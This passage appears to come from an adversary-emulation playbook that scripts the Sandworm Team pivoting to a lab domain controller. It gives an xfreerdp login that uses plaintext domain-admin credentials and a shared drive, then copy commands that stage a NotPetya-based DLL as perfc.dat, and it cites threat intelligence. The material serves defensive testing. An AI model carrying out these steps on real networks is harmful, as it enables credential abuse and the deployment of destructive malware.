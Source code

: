 :warning: Go back to the gammu RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2017/06/30/telebots-back-supply-chain-attacks-against-ukraine/

<br>

## Step 18 - Pivot to DC

:microphone: `voice track`

Sandworm logs into arrakis/10.0.1.4 over RDP using domain credentials (patreides).

Sandworm uploads a DLL based on NotPetya to arrakis (C:\Windows\perfc.dat) over a network share tunneled through the RDP connection.

```
File write: C:\Windows\perfc.dat
```

### :biohazard: Procedures

:warning: go back to your first terminal window; rename to RDP into arrakis. 

RDP into arrakis/domain controller using domain admin credentials.

```bash
# Sandworm Team has used stolen credentials to access administrative accounts within the domain.

xfreerdp +clipboard /u:WORKGROUP\\patreides /p:"ebqMB7DmM81QVUqpf7XI" /v:10.0.1.4 /drive:X,sandworm/Resources/NotPetya/bin
```

Accept certificate warnings if prompted.

Once logged in, close server manager and any spurious warnings or pop-ups.

Open PowerShell as administrator `(right click > run as administrator > yes)`:

Copy NotPetya from dungeon to arrakis over RDP channel:

```bash
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat
```

```bash
dir C:\Windows\perfc.dat
```

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2018/10/11/new-telebots-backdoor-linking-industroyer-notpetya/
